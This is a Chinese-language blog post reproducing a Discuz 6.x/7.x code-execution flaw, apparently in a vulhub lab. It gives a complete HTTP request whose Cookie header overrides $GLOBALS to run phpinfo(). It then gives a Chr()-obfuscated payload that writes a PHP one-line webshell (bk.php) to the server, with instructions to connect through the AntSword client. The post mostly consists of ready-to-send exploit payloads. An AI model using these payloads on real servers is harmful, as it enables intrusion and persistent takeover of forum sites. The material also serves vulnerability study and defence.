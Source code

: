 ```yaml
---
title: Discuz代码执行
date: 2021-01-26 20:28:12
categories: 漏洞复现
tags: Discuz
---
```


#### 背景

Discuz是一套十分受欢迎的论坛软件系统，已拥有多年的应用历史和三十多万网站用户案例，是全球成熟度最高、覆盖率最大的论坛软件系统之一。由于php5.3.x版本里php.ini的设置里`request_order`默认值为GP，导致`$_REQUEST`中不再包含`$_COOKIE`，通过在Cookie中传入`$GLOBALS`来覆盖全局变量，造成代码执行漏洞。

<!--more-->

#### 影响版本

* Discuz 6.x
* Discuz 7.x

#### 复现过程

1.随便选择一篇帖子，发送如下数据包，主要修改的是Cookie中的值`GLOBALS[_DCACHE][smilies][searcharray]=/.*/eui; GLOBALS[_DCACHE][smilies][replacearray]=phpinfo();`

```http
GET /viewthread.php?tid=6&extra=page%3D1 HTTP/1.1
Host: 192.168.0.108:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:84.0) Gecko/20100101 Firefox/84.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: http://192.168.0.108:8080/forumdisplay.php?fid=2
Connection: close
Cookie: GLOBALS[_DCACHE][smilies][searcharray]=/.*/eui; GLOBALS[_DCACHE][smilies][replacearray]=phpinfo();
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
```



![](http://qn.laohuan.xin/Snipaste_2021-01-25_21-02-11.png)

![](http://qn.laohuan.xin/Snipaste_2021-01-25_21-05-59.png)

成功执行phpinfo

**写一句话木马**

将cookie的值替换为

```php
GLOBALS[_DCACHE][smilies][searcharray]=/.*/eui; GLOBALS[_DCACHE][smilies][replacearray]=eval(Chr(102).Chr(112).Chr(117).Chr(116).Chr(115).Chr(40).Chr(102).Chr(111).Chr(112).Chr(101).Chr(110).Chr(40).Chr(39).Chr(98).Chr(107).Chr(46).Chr(112).Chr(104).Chr(112).Chr(39).Chr(44).Chr(39).Chr(119).Chr(39).Chr(41).Chr(44).Chr(39).Chr(60).Chr(63).Chr(112).Chr(104).Chr(112).Chr(32).Chr(64).Chr(101).Chr(118).Chr(97).Chr(108).Chr(40).Chr(36).Chr(95).Chr(80).Chr(79).Chr(83).Chr(84).Chr(91).Chr(98).Chr(107).Chr(98).Chr(107).Chr(98).Chr(107).Chr(93).Chr(41).Chr(63).Chr(62).Chr(39).Chr(41).Chr(59))
```

eval函数里的ascii码转化为字符串就是写一句话木马的过程

![](http://qn.laohuan.xin/Snipaste_2021-01-25_21-29-59.png)

发送payload

![](http://qn.laohuan.xin/Snipaste_2021-01-25_21-32-49.png)

蚁剑连接即可

![](http://qn.laohuan.xin/Snipaste_2021-01-25_21-38-18.png)

#### 参考链接

[http://github.com/vulhub/vulhub/tree/master/discuz/wooyun-2010-080723](http://github.com/vulhub/vulhub/tree/master/discuz/wooyun-2010-080723)

[http://www.secpulse.com/archives/2338.html](http://www.secpulse.com/archives/2338.html)